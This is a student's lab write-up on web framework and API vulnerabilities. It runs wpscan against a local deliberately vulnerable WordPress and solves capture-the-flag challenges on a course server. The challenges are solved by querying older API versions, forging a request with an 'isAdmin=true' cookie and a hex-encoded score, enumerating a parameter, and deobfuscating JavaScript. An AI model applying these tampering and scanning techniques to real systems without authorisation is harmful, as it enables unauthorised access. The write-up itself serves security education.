





# Lab 07: Framework & API Vulnerabilities

## Part 1: DVWP
https://github.com/vavkamil/dvwp

Followed the instalation steps and ran wpscan
```bash
wpscan --url http://127.0.0.1:31337/ --enumerate u,vp,vt 
```

The output is really long, you can view it wps_report.md, some Interesting findings are
```bash
Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution
```
```bash
WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution
```
```bash
WordPress File Upload < 4.13.0 - Directory Traversal to RCE
```
```bash
InfiniteWP Client < 1.9.4.5 - Authentication Bypass
```

---

## Part 2
### Clean Up
We find the api path api-v3/get-user-records.php in the page source
```javascript
function load_user_info() {
		$.ajax({
			type: "GET",
			url: "api-v3/get-user-records.php",
			success: function(data) {
				data = JSON.parse(data);
				generate_table(data);
			}
		});
	}
```

Lets take a look at the older versions
```bash
curl -s http://141.85.224.102:7004/api-v3/get-user-records.php | grep -o 'SSS{[^}]*}'
```
```bash
curl -s http://141.85.224.102:7004/api-v2/get-user-records.php | grep -o 'SSS{[^}]*}'
```

Version 1 contains the flag
```bash
curl -s http://141.85.224.102:7004/api-v1/get-user-records.php | grep -o 'SSS{[^}]*}'
SSS{d0nt_f0rget_t0_clean_y0ur_h0use}
```

---

### High Score
We create an account and capture the request to update our information

```http
POST /api-save-user.php HTTP/1.1
Host: 141.85.224.102:7001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:151.0) Gecko/20100101 Firefox/151.0
Accept: */*
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 46
Origin: http://141.85.224.102:7001
Connection: keep-alive
Referer: http://141.85.224.102:7001/account.php
Cookie: PHPSESSID=e3dd89ccfeac83cbb9d038a4d7077bbf; isAdmin=false
Priority: u=0

q=757365726e616d653d616e6126656d61696c3d616e61
```

By inspecting the page source we see that q is just the string we sent encoded in hex
```javascript
function a2hex(str) {
  var arr = [];
  for (var i = 0, l = str.length; i < l; i ++) {
    var hex = Number(str.charCodeAt(i)).toString(16);
    arr.push(hex);
  }
  return arr.join('');
}
```

That means we can craft our own payloads and send them as we please. Managed to change the score by crafting a request as admin
```javascript
a2hex("score=110")
"73636f72653d313130"
```

```http
Cookie: PHPSESSID=05567d9c638985d28e1b3343ddd88bbf; isAdmin=true
Priority: u=0
```

Then I had to quickly view the leaderboard as others were also increasing their scores and I had to be the one with the highest score in order to see the flag





---

### The Accountant
We find the api which contains data for more retailers, since one of them is emag we try it's competitor, altex, which gives us the flag
```bash
curl 'http://141.85.224.102:7005/api-v2/retailers/records.php?retailer=altex' | grep -o 'SSS{[^}]*}'
SSS{1,945,203,333}
```

---

### Snoop Doggy Dog
One of the buy buttons works and redirects us to http://141.85.224.102:7002/dronewalkv125.html



We see a contact form and in the page source a note about the drone_version_check.js file 
```html
    <!--<script src="form/js/drone_version_check.js"></script>--> <!-- Check discount code, dawg! -->
```

It's obfuscated so we use https://obf-io.deobfuscate.io/ to make it readable



There we find the previous drone version
```javascript
"Previous drone walk version: 109"
```

Now we access http://141.85.224.102:7002/dronewalkv109.html, after we complete the form we get the flag


